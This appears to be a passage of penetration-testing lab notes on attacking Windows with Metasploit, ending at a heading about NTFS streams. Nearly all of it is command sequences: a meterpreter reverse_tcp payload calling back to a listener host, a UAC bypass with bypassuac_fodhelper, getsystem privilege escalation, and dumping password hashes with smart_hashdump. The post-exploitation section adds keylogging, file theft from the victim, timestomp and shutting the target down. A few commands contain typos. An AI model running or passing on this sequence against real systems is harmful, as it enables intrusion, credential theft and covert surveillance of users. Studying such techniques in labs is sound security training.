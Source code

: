 #### Listener Setup

```bash
#Open http://10.10.10.11/share on victim machine. Download Payload and run.
sessions -i #to view sessions
sessions -i 1 #to interact with the session created
getuid to #get user id
#Run post exploitation exploit
run post/windows/gather/smart_hashdump #will fail right now
getsystem | will fail right now #use getystem -h to view all available methods
getsystem -t 1 #use technique 1 to escalate privileges | will fail right now
background #backgrounds the meterpreter session.
search uac in msfconsole #get view modules related to uac
```

#### Run Exploit

```bash
use exploit/windows/local/bypassuac_fodhelper
show options #to view options related to the payload
set SESSION 1 #the previous opened meterpreter session id
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.10.11
set TARGET 0
exploit
getuid to get user id
etsystem #to escalate privileges
Run post exploitation exploit run post/windows/gather/smart_hashdump #to dump password
hashes
```

## Post Exploitation Activities on Target

After meterpreter is successfully running, try these commands:

```bash
sysinfo
ipconfig
getuid
pwd
ls
cat secret.txt
timestomp secret.txt -v #view modified, accessed, created time of file
cd c:\ #then pwd, ls
download bootmgr #downloads the bootmgr file from c:\ to home directory of kali
search -f “filename.ext” |here “pagefile.sys” #displays complete path of file
keyscan_start #to start keylogger
keyscan_dump #to dump keylogger results
idletime #shows the time the target user has been away from keyboard
shutdown #shutdown the victim machine
```

## Hiding file in NTFS stream
